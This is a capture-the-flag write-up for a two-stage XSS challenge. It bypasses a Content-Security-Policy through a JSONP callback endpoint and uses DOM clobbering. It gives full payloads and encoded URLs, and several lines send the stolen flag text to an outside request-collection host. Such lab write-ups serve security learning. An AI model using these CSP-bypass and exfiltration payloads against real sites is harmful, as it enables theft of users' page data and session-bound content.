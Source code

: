 XSS with search on main page
XSS with post parameter `bg` on stage 2 page

Content-Security policy blocks inline scripts but we can use `/items.php` and search for:

`<script src="/items.php?cb=alert(1)%2F%2F"></script>`

but: callback max length is 250 characters


## Script for stage 2

```js
location='//enbdblkpmmbod.x.pipedream.net/'+$('b').text()
```

```
lang"><hr id=backgrounds lang="<script>location='//enbdblkpmmbod.x.pipedream.net/'+$('b').text()"><!--
```


## Script for stage 1

```js
x=stage2.href;fetch(x,{method:"post",headers:{'Content-type':'multipart/form-data'},credentials:"include",body:`lang"><hr id=backgrounds lang="<script>location='//enbdblkpmmbod.x.pipedream.net/'+$('b').text()"><!--`});location=x;

x=stage2.href;fetch(x,{method:"post",credentials:"include",body:new URLSearchParams({bg:`lang"><hr id=backgrounds lang="<script>location='//enbdblkpmmbod.x.pipedream.net/'+$('b').text()"><!--`})});location=x;
```

```js
fetch(x=stage2,{method:"post",credentials:"include",body:new URLSearchParams({bg:decodeURI(location.hash.slice(1))})});location=x;
```

Hash:
```
lang"><hr id=backgrounds lang="<script>location='//enbz7iuv4yegp.x.pipedream.net/'+$('b').text()"><!--
```

```
fetch%28x%3Dstage2%2C%7Bmethod%3A%22post%22%2Ccredentials%3A%22include%22%2Cbody%3Anew%20URLSearchParams%28%7Bbg%3AdecodeURI%28location.hash.slice%281%29%29%7D%29%7D%29%3Blocation%3Dx%3B
```

defer to wait for jQuery to load

```
<script defer src="/items.php?cb=fetch%28x%3Dstage2%2C%7Bmethod%3A%22post%22%2Ccredentials%3A%22include%22%2Cbody%3Anew%20URLSearchParams%28%7Bbg%3AdecodeURI%28location.hash.slice%281%29%29%7D%29%7D%29%3Blocation%3Dx%3B"></script>
```

```
http://xss.allesctf.net/?search=%3Cscript%20defer%20src%3D%22%2Fitems.php%3Fcb%3Dfetch%2528x%253Dstage2%252C%257Bmethod%253A%2522post%2522%252Ccredentials%253A%2522include%2522%252Cbody%253Anew%2520URLSearchParams%2528%257Bbg%253AdecodeURI%2528location.hash.slice%25281%2529%2529%257D%2529%257D%2529%253Blocation%253Dx%253B%22%3E%3C%2Fscript%3E#lang"><hr id=backgrounds lang="<script>location='//enbz7iuv4yegp.x.pipedream.net/'+$('b').text()"><!--
```

## What's happening?

1. Set search url to a `script` tag with src `items.php` where the callback is some JavaScript
2. In JavaScript: Post request to stage2 to set background to `lang"><hr id=backgrounds lang="<script>location="//enbdblkpmmbod.x.pipedream.net/"+$("b").text()"><!--`
3. Navigate to stage2
4. Background XSS will comment out the original `backgrounds` array
5. The `hr` element with `id=backgrounds` will get selected and because the `input#bg`'s value is `lang` we add the `hr`'s `lang`-value to the dom, which is a `script` tag
6. Because of the `strict-dynamic` in the `Content-Security-Policy` the `script` tag will not get blocked
7. The JavaScript in the `script` tag grabs the flag and navigates to `http://enbdblkpmmbod.x.pipedream.net/<the flag>`
8. The flag will show up in the server log

Flag: `CSCG{c0ngratZ_y0u_l3arnD_sUm_jS:>}`
